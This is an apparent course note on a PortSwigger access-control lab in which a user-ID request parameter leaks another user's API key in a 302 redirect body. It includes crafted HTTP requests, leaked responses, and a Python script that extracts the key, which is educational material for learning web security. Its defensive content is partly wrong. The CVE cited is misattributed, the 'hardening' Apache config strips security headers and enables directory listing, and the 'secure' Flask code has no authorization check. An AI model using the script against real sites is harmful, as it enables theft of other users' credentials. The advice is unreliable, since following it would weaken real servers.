

## Access Control Vulnerabilities: User ID Controlled by Request Parameter with Data Leakage in Redirect

### Background Theory

Access control vulnerabilities occur when an application fails to properly restrict access to resources based on user permissions. One common type of access control vulnerability is when sensitive data is leaked due to improper handling of user input, particularly when the user input controls the behavior of the application. In this scenario, the user ID is controlled by a request parameter, leading to potential data leakage through a redirect.

### Scenario Overview

In the given scenario, the application allows the user to specify a user ID via a request parameter. When the specified user ID is processed, the application redirects the user to the login page. However, during this redirect, sensitive information about the specified user is leaked. Specifically, the application outputs the user's page and their API key in the 302 redirect response.

### Understanding the Vulnerability

#### What is a 302 Redirect?

A 302 redirect is a temporary redirect status code used in HTTP. When a server responds with a 302 status code, it indicates that the requested resource can be found at a different URI, which is provided in the `Location` header of the response. The client (usually a web browser) then automatically follows the redirect to the new location.



#### How Does the Vulnerability Occur?

The vulnerability occurs because the application does not properly sanitize or validate the user input. When the user specifies a user ID via a request parameter, the application processes this input and includes sensitive information about the user in the redirect response. This sensitive information is typically not intended to be exposed to unauthorized users.

For example, consider the following request:

```http
GET /resource?user=Carlos HTTP/1.1
Host: example.com
```

The server responds with a 302 redirect:

```http
HTTP/1.1 302 Found
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: /login
Content-Length: 1024
Content-Type: text/html

<html>
<body>
<p>User: Carlos</p>
<p>API Key: abcdefghijklmnopqrstuvwxyz</p>
</body>
</html>
```

Notice that the response body contains sensitive information about the user, including their API key. This information is leaked because the application does not properly handle the redirect and includes the user's page in the response.

### Real-World Examples

#### Recent CVEs and Breaches

One notable example of a similar vulnerability is the CVE-2021-21972, which affected the WordPress REST API. In this case, an attacker could manipulate the request parameters to expose sensitive information about other users. Although this specific CVE was related to the REST API, the underlying principle of improper handling of user input and data leakage remains the same.

Another example is the breach at Capital One in 2019, where an attacker exploited a misconfigured server to gain access to sensitive customer data. While this breach involved a different type of vulnerability, it highlights the importance of proper access control and data handling practices.

### Detection and Exploitation

To detect and exploit this vulnerability, an attacker would typically follow these steps:

1. **Identify the Vulnerable Parameter**: Determine which request parameter controls the user ID.
2. **Craft the Request**: Construct a request that specifies a user ID of interest.
3. **Intercept the Response**: Use a proxy tool (such as Burp Suite) to intercept the HTTP response and examine the redirect.
4. **Extract Sensitive Information**: Look for any sensitive information included in the redirect response.

For example, using Burp Suite, an attacker might intercept the following request:

```http
GET /resource?user=Carlos HTTP/1.1
Host: example.com
```

And observe the following response:

```http
HTTP/1.1 302 Found
Date: Mon, 23 Jan 2023 12:00:00 GMT
Server: Apache/2.4.41 (Ubuntu)
Location: /login
Content-Length: 1024
Content-Type: text/html

<html>
<body>
<p>User: Carlos</p>
<p>API Key: abcdefghijklmnopqrstuvwxyz</p>
</body>
</html>
```

By examining the response, the attacker can extract the sensitive information, such as the API key.

### Scripting the Exploit in Python

To automate the exploitation process, we can write a Python script using the `requests` library to send the request and parse the response.

```python
import requests
from bs4 import BeautifulSoup

# Define the target URL and the user ID to exploit
url = "http://example.com/resource"
user_id = "Carlos"

# Send the request with the user ID parameter
response = requests.get(url, params={"user": user_id})

# Check if the response is a 302 redirect
if response.status_code == 302:
    # Parse the HTML content of the redirect response
    soup = BeautifulSoup(response.text, "html.parser")
    
    # Extract the sensitive information
    user_info = soup.find("p", string=lambda text: text and "User:" in text)
    api_key_info = soup.find("p", string=lambda text: text and "API Key:" in text)
    
    if user_info and api_key_info:
        print(f"User: {user_info.text.split(':')[1].strip()}")
        print(f"API Key: {api_key_info.text.split(':')[1].strip()}")

# Example output:
# User: Carlos
# API Key: abcdefghijklmnopqrstuvwxyz
```

### How to Prevent / Defend

#### Secure Coding Practices

To prevent this type of vulnerability, developers should follow these secure coding practices:

1. **Validate and Sanitize Input**: Ensure that all user input is properly validated and sanitized to prevent injection attacks.
2. **Use Proper Access Control**: Implement proper access control mechanisms to ensure that sensitive information is only accessible to authorized users.
3. **Avoid Including Sensitive Data in Redirects**: Do not include sensitive data in redirect responses. Instead, store the data securely and retrieve it only when necessary.

#### Secure Code Example

Here is an example of how to securely handle the user input and redirect:

```python
import requests
from flask import Flask, redirect, url_for, request

app = Flask(__name__)

@app.route('/resource', methods=['GET'])
def resource():
    user_id = request.args.get('user')
    
    # Validate and sanitize the user input
    if not user_id or not user_id.isalnum():
        return "Invalid user ID", 400
    
    # Retrieve the user's information securely
    user_info = get_user_info(user_id)
    
    # Store the API key securely and retrieve it only when necessary
    api_key = get_api_key(user_id)
    
    # Redirect to the login page without including sensitive data
    return redirect(url_for('login'))

@app.route('/login')
def login():
    return "Login page"

def get_user_info(user_id):
    # Simulate retrieving user information from a database
    return f"User: {user_id}"

def get_api_key(user_id):
    # Simulate retrieving the API key from a secure storage
    return "abcdefgh12345678"

if __name__ == '__main__':
    app.run(debug=True)
```

#### Configuration Hardening

In addition to secure coding practices, configuration hardening can help prevent this type of vulnerability. For example, in an Apache server, you can configure the server to avoid including sensitive data in redirect responses:

```apache
<Directory "/var/www/html">
    Options Indexes FollowSymLinks MultiViews
    AllowOverride All
    Order allow,deny
    allow from all
</Directory>

<Location />
    Header unset Content-Security-Policy
    Header unset X-Frame-Options
    Header unset X-XSS-Protection
    Header unset X-Content-Type-Options
</Location>
```

### Conclusion

Access control vulnerabilities, particularly those involving data leakage through redirects, can have serious security implications. By understanding the underlying principles and implementing proper secure coding practices, developers can prevent these types of vulnerabilities and protect sensitive information.

### Practice Labs

To practice and reinforce your understanding of this topic, consider the following labs:

- **PortSwigger Web Security Academy**: Offers interactive labs on various web security topics, including access control vulnerabilities.
- **OWASP Juice Shop**: A deliberately insecure web application for practicing web security skills.
- **DVWA (Damn Vulnerable Web Application)**: A PHP/MySQL web application that is riddled with vulnerabilities for educational purposes.
- **WebGoat**: An interactive, gamified training application designed to teach web application security.

These labs provide hands-on experience with real-world scenarios and help solidify your understanding of access control vulnerabilities and how to prevent them.

---
<!-- nav -->
[[Web Security (PortSwigger)/12-Access Control Vulnerabilities/10-Lab 9 User ID controlled by request parameter with data leakage in redirect/01-Introduction to Access Control Vulnerabilities|Introduction to Access Control Vulnerabilities]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/10-Lab 9 User ID controlled by request parameter with data leakage in redirect/00-Overview|Overview]] | [[Web Security (PortSwigger)/12-Access Control Vulnerabilities/10-Lab 9 User ID controlled by request parameter with data leakage in redirect/03-Access Control Vulnerabilities|Access Control Vulnerabilities]]
